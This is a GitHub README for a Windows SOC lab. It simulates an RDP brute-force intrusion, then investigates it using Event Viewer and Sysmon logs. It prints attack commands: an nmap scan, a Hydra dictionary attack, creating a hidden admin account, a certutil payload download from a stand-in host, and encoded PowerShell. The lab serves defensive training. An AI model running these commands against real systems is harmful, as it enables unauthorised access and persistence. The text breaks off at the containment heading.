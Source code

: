 # 🛡️ Practical SOC Workflows Using Windows Event and Sysmon Logs

## 📘 Overview
This project simulates a realistic security incident on a Windows system and demonstrates how a SOC (Security Operations Center) analyst might investigate and respond using Windows Event Logs and Sysmon telemetry. The lab follows the NIST SP 800-61 framework for incident response, emphasising hands-on detection, containment, and remediation.

This project serves both as a learning resource and as a proof of concept to reinforce Windows forensic workflows, enhance detection engineering intuition, and build investigative muscle memory for real-world SOC environments.

- **Disclaimer**: The EC2 instances were terminated post project completion, and therefore majority of IP's have not been redacted. These instances no longer exist.

## 🎯 Project Objectives
- To simulate attacker behavior including enumeration, reconnaissance, brute-force (dictionary-based) authentication attempts, and post-compromise actions such as privilege escalation and persistence.
- To conduct a structured SOC-style investigation using built-in tools (Event Viewer, PowerShell) and third-party utilities (Sysmon), while practicing detection logic, log correlation, and incident response techniques.

## Tools
- AWS EC2 instances (windows & ubuntu)
- [nmap](https://nmap.org/)
- [Hydra](https://www.kali.org/tools/hydra/)
- Windows Event Viewer
- [Sysmon](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)

## 📌 Project Phases
| Phase | Title | Description |
|-------|-------|-------------|
| 1     | Pre attack activities | Carry out enumeration and reconnaissance on the vulnerable server |
| 2     | Brute-force (dict attack) | The attacker brute forces authentication into the server via a dictionary attack | 
| 3     | Post-compromise | The attackers post compromise actions such as privilege escalation and persistence |
| 4     | SOC Investigation | SOC team is alerted of the security events and begins investigations following NIST SP 800-61 framework for Incident Response |
| 5     | MITRE ATTACK | Correlate the security events to MITRE ATTACK tools & techniques |
| 6     | Lessons learned | Project overview and summary of findings |

### 1. Pre attack activities
The pre attack activities are simulated by me to better understand the tools, techniques, and through processes behind attacker behaviours for enumeration and reconnaissance. I begin by performing an `nmap` scan on the public IP address of the target server.

```
sudo nmap -sS -Pn 16.170.231.38
```

- `-sS`: SYN scan (stealth scan)
- `-Pn`: Skips host discovery (assumes host is up)

![image](https://github.com/user-attachments/assets/f489032b-e585-41cf-a6fa-7a311ce935fc)

The attacker notes that port 3389 (RDP) is open on service: `ms-wbs-server`. 

### 2. Brute-force attack (dictionary attack)
The attacker begins a dictionary attack using `Hydra`, on common username credentials such as `itadmin`. They create a `password.txt` file containing common and weak passwords to begin their attack.

![image](https://github.com/user-attachments/assets/8d291ff1-beac-474e-bdf9-bf463967b840)

With the first password list ready, they run Hydra against the public IP address of the server.

```
hydra -t 1 -W 3 -V -l itadmin -P passwords.txt rdp://16.170.231.38
```

![image](https://github.com/user-attachments/assets/72b187f8-094e-4f00-80d1-72974e738c27)

This reveals a successful authentication via password `Summer2025` which the attacker can then use for successful authentication via RDP to the remote server.

### 3. Post-compromise activities
The attacker then accesses the remote machine via RDP using the details discovered through this enumeration and reconaissance. Once inside, the attacker elevates a new account and adds it so a security-enabled group `Administrators`. The new user `svc_task` is a common naming convention to evade detection, mimicking real windows service accounts.

```
PS C:\Windows\system32> net user svc_task notevil123! /add
The command completed successfully.

PS C:\Windows\system32> net localgroup administrators svc_task /add
The command completed successfully.

PS C:\Windows\system32>
```

The attacker then laterally moves to this new account `svc_task` and performs two actions in PowerShell.

```
certutil.exe -urlcache -split -f http://example.com/payload.txt C:\Temp\payload.txt
```

- `certutil.exe` is a built-in windows binary and is often abused by attackers to download files. Its commonly whitelisted and can help attackers to evade suspicions.
- The command parameters attempt to fetch a remote file from the example url and save it locally as `payload.txt`

```
powershell -enc UwB0AGEAcgB0AC0AUABvAHMAZQBzAHMAIABjAGEAbABjAC4AZQB4AGUA
```

- This is Base64-Encoded Powershell with Obfuscation. The `-enc` flag tells PowerShell to interpret the argument as a base64-encoded command.
- The base64 string decodes to: `Start-Process calc.exe` (CyberChef was used here). This example is harmless - but the tactic realistic. Attackers use this method to hide dangerous payloads.

### 4. SOC Investigation (NIST SP 800-61)
In this scenario, the SOC team have had numerous alerts raised on their EDR and SIEM platform, which contained the following alert messages:
- Number of invalid logins for account `itadmin` has exceeded threshold of 3 within 10 minutes.
- New user account has been created and added to a security-enabled group
- Malicious PowerShell code detected on host: `EC2AMAZ-NILIHU8`

### 4.1 Preparation
This phase of the framework comes before an incident, and involves log management, playbooks, detection rules such as in EDR/SIEM platforms, asset inventories, and user training. The goal of this stage overall is to ensure you are ready before a security incident.

### 4.2 Detection & Analysis
The alerts from this incident have came from the organisations SIEM (Splunk) and EDR (Microsoft XDR) platforms. However, this can also involve manual user escalations or threat intel. In this stage, triaging the alert helps to confirm if it is real by investigating the alert sources in greater detail. In this project, as the SOC L1 analyst, I assign myself ownership of the cases, and begin the investigation. The SIEM alerts have revealed IOCs (indicators of compromise) such as host: `EC2AMAZ-NILIHU8` and user: `itadmin`. I then access the machine and open up Windows Event Viewer to investigate further.

In `Event Viewer` -> `Windows Logs` -> `Security` I begin by filtering on Event ID `4625`: failed logins. 10 login attempts were made at around `12:37 PM`. By going through these events individually, we see that the account name `itadmin` has been under a brute-force attack. The IP address 16.16.66.207 is an external/unknown IP address. The failure reason explains that the username of password was incorrect. 

![image](https://github.com/user-attachments/assets/fcd9b2bd-e695-4594-8e67-59113a04af3b)

![image](https://github.com/user-attachments/assets/bb4a9e38-8ac2-4eab-b99d-07c59513f34f)

I then look for successful logins: Event ID `4624` and create a custom XML filter on the target username identified `itadmin`.

![image](https://github.com/user-attachments/assets/a58d4f74-e558-4da9-a5fd-f9f73b7b2c69)

The results reveal that at `12:49:49` this user was successfully accessed by the malicious IP address. We know from the SIEM alerts that a new user has been created and added to a security-enabled group. Therefore the following searches investigate this with the relevant Event IDs. Filtering now on Event ID `4720`: New user account was created - We discover that itadmin has created a new user account called `svc_task`: at `1:11:08 PM`. The next Event ID `4732` reveals that the attacker then added this account to `Administrators`.

![image](https://github.com/user-attachments/assets/0d53525a-22b6-4e72-ab6f-0108f1e30a79)

In the `sysmon` logs in Event Viewer, another custom XML filter was applied, looking directly at the suspicious new user, and `EventID=1` which covers `Process creation`.

![image](https://github.com/user-attachments/assets/2db2a8e1-67b5-4d8d-a560-72bc40bd3d48)

Within the event results, we discover that the user ran malicious encoded PowerShell code.

![image](https://github.com/user-attachments/assets/3e75533a-edbb-4f6c-aa09-e79649589ac4)

```
CommandLine: "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -enc UwB0AGEAcgB0AC0AUABvAHMAZQBzAHMAIABjAGEAbABjAC4AZQB4AGUA
```

I then checked the `PSReadLine` file for the suspicious user `svc_task`, found here:

```
C:\Users\svc_task\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
```

![image](https://github.com/user-attachments/assets/1c127e03-48e0-401c-9845-e148a6d0db7e)

This is when I discovered more malicious PowerShell code that was not picked up in Sysmon. This was a `certutil.exe` abuse attempt to fetch a malicious payload from an external website.

### 4.3 Containment

